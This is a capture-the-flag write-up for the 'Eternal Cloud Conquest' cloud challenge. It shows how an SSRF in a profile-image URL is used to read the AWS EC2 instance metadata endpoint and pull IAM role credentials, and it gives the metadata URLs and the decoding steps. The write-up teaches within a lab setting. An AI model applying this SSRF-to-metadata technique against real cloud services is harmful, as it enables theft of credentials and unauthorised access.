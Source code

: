 # Eternal Cloud Conquest - Sponsored by [Mirai Security](https://miraisecurity.com/)

**Author: [`MNThomson`](https://github.com/MNThomson)**

**Category: `Cloud Hard`**

## Description

When we first launched Viking Axe Co™, we utilized a legacy cloud static website to store our battle-axes. At the time, we believed that this was a secure solution, and that our axes were safe from harm. Unfortunately, we were wrong. Our website was hacked, and our precious battle-axes were stolen. It was a devastating blow, and it made us realize the importance of cybersecurity in the modern age.

> http://eternal-cloud-conquest.vikesec.ca

## Organizers

## Solution

<details> 
  <summary><b>TLDR:</b> Spoiler Warning</summary>

> [SSRF](https://portswigger.net/web-security/ssrf) of [AWS EC2](https://aws.amazon.com/ec2/) [Instance Metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) through the [users profile photo URL](http://169.254.169.254/latest/meta-data/iam/security-credentials/vikeCTF-metadata-role)

</details>

### Reconnaissance

Navigating to the URL provided, we find Viking Axe Co's website. Exploring further we can find three blog posts: `About us`, `A disterous retrospective`, & `Customer Success`. Reading through them, the retrospective seems to contain some interesting information. From this blog post, we can gather the follow:

- This current website is running on [AWS EC2](https://aws.amazon.com/ec2/)

  "`... we turned to AWS for a solution. We built a new EC2 server`"

- The **_external network_** has access controls

  "`... configured the external network access to not allow anyone to access restricted resources`"

Hmm...the "external network" comment is making me think of an [SSRF](https://portswigger.net/web-security/ssrf), not sure yet though.

Also, some blog posts have previous user comments. Inspecting the HTML we can notice that the profile images are data URLs (e.g. `data:image/png;base64,iVBORw0KG...`). Weird, but these are probably just to reduce network requests on static pages.

### Exploration

Now to active recon. Along the nav bar there appears to be a profile image, and upon clicking it, we are taken to `/register` page asking for a `username` & `password`. Registering with any data seems to work (except for the annoying password complexity prompts), no email confirmation required!

Ok, so we now have a user, and it appears we can add some more info to our profile such as:

- `Mothers Maiden Name` (I wonder why a website would ever want that...)
- `Your Birthday` (uhh, ok)
- `Profile Image URL` (ooooooh, interesting)
- `The City you live in` (getting creepier by the minute)

So the `Profile Image URL` looks fascinating, let's try that. Setting it to any example PNG, it appears that we get our profile image in the navbar! Upon closer HTML inspection though, it's just linking to the image directly (so no SSRF for us `:(`, sad).

Alright, nothing there so let's do another lap of recon. Reading the about page doesn't seem to provide anything interesting. Now there is a search bar, but the search is 100% local (as seen by viewing the network tab while typing), so I doubt there is anything there.

Circling back to the blog posts though provides us now with the ability to create a new comment...hello there! When we input some random text and click `New Comment`, the page is reloaded, and we can see our comment rendered. Alongside the comment, is our user specified profile image. And viewing the HTML, it's also a data URL...meaning URL was just requested server side. We've got an SSRF!

### Exploitation

Alright, so we know we have an SSRF, let's exploit it! Looking for local open ports though nothing really sticks out as interesting. So that's extremely weird since gaining access to local services is usually the goal of an SSRF. Alright, what other information do we have?

Wait, we know this is running on EC2, is that an avenue of attack? Bingo, searching for "[`AWS EC2 SSRF`](https://www.google.com/search?q=AWS+EC2+ssrf)" [finds](https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/), [us](https://scalesec.com/blog/exploit-ssrf-to-gain-aws-credentials/), [some](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf), [gold](https://infosecwriteups.com/ssrf-leads-to-access-aws-metadata-21952c220aeb)!

So setting our profile URL to `http://169.254.169.254/` we can go back to the comment section and grab the base64 encoded PNG profile image as `data:image/png;base64,bGF0ZXN0Cg==`

```bash
$ echo -n "bGF0ZXN0Cg==" | base64 -d
latest
```

So lets grab the name of the credentials.

```bash
# http://169.254.169.254/latest/meta-data/iam/security-credentials/
$ echo -n "dmlrZUNURi1tZXRhZGF0YS1yb2xl" | base64 -d
vikeCTF-metadata-role
```

Now to grab the credentials themselves!

```bash
# http://169.254.169.254/latest/meta-data/iam/security-credentials/vikeCTF-metadata-role
$ echo -n "ewoJIkNvZGUiOiAiU3VjY2VzcyIsCgkiTGFzdFVwZGF0ZWQiOiAiMjAyMy0wMy0xN1QxNjowMDowMFoiLAoJIlR5cGUiOiAiQVdTLUhNQUMiLAoJIkFjY2Vzc0tleUlkIjogIjEyMzQ1Njc4OTAxIiwKCSJTZWNyZXRBY2Nlc3NLZXkiOiAidi8xMjM0NTY3ODkwMSIsCgkiVG9rZW4iOiAidmlrZUNURntkMG50X2YwcmczdF9AYjB1dF9uM3R3MHJrX0BjYzM1NX0iLAoJIkV4cGlyYXRpb24iOiAiMjAyMy0wMy0xOVQxNjowMDowMFoiCn0=" | base64 -d
{
  "Code": "Success",
  "LastUpdated": "2023-03-17T16:00:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "12345678901",
  "SecretAccessKey": "v/12345678901",
  "Token": "vikeCTF{d0nt_f0rg3t_@b0ut_n3tw0rk_@cc355}",
  "Expiration": "2023-03-19T16:00:00Z"
}
```

## Flag

```
vikeCTF{d0nt_f0rg3t_@b0ut_n3tw0rk_@cc355}
```
